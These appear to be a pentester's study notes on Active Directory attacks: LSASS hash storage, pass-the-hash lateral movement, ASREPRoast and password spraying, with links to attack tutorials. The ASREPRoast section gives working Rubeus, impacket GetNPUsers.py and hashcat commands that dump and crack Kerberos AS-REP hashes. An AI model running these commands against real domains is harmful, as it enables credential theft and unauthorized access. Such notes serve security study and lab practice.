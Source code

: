 ## AD privilege
+ extract hash and password
+ lateral movement, pth/ptt/rbcd
+ delegation, unconstrained/constrained/rbcd
+ ACLs abuse

**about hashes and how they stored**
+ hashes stored in windows, in order to renew TGT
+ In current version of Windows, hashes stored in LSASS memory space. LSASS, Local Security Authority Subsystem Service
+ LSASS process is part of OS, and run an SYSTEM. Need SYSTEM(or local administrator) permission to gain access to the hashes.
+ stored hashes are also encrypted with an LSASS stored key.
+ dump hash need local administrator;
+ [Dump域内用户hash姿势](https://xz.aliyun.com/t/2527)， on dc

**Lateral Movement**, use lateral movement to compromise the machines our high-value targets are logged in to.
+ crack any password hashes, authenticate to a machine with cleartext passwords in order to gain unauthorized access.
+ authenticate to a system and gain code execution using only a user’s hash or a Kerberos ticket
+ [内网横向移动](https://blog.csdn.net/Captain_RB/article/details/107883264)
+ [深入研究Pass-the-Hash攻击与防御](https://xz.aliyun.com/t/7051)
+ [域渗透-凭据传递攻击(pass the hash)完全总结](https://www.cnblogs.com/-qing-/p/11374136.html#_label0)
+ [内网渗透-横向攻击](https://www.jianshu.com/p/7aaf6ef32b45?utm_campaign=haruki)
+ [内网渗透-免杀抓取hash](https://www.jianshu.com/p/00d70dc76678)
+ have got a Cred,what Do i do now? [Offensive Lateral Movement](https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/),
+ [use psexec tool to run commands get shell ](https://www.poftut.com/use-psexec-tools-run-commands-get-shell-remote-windows-systems/)
+ [useing credentials to own windowx box, psexec and service](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

### ASREPRoast
+ dumps the krbasrep5 hashes of user accounts that have kerberos pre-authentication disabled.
+ crackt the krbasrep5 hash

```bash
# rebeus looking for vulnerable users and then dump the hashes.
rebeus.exe asreproast

## insert 23$ after $krb5asrep$
 $krb5asrep$23$User

# hashcat crack
## 18200, Kerberos 5 AS-REP etype 23
hashcat -example-hashes | grep krb5
hashcat -m 18200 hash.txt Pass.txt

# impacket attack
## get hash of asreproastable account,  userlist or specific user.
GetNPUsers.py -usersfile domainuser.txt -no-pass -dc-ip $tip spookysec.local/ 
GetNPUsers.py -dc-ip $tip -no-pass spookysec.local/svc-admin

hashcat -m 18200 svc-admin.hash /usr/share/wordlists/sq00ky-adlist/passwordlist.txt
```
### Password Spraying
+ use LDAP and ADSI to perform a “low and slow” password attack against AD users without triggering an account lockout.
+ if you found userlist, cewl the dict to brute.
+ use smbpasswd/smbpasswd.py to change the default password.
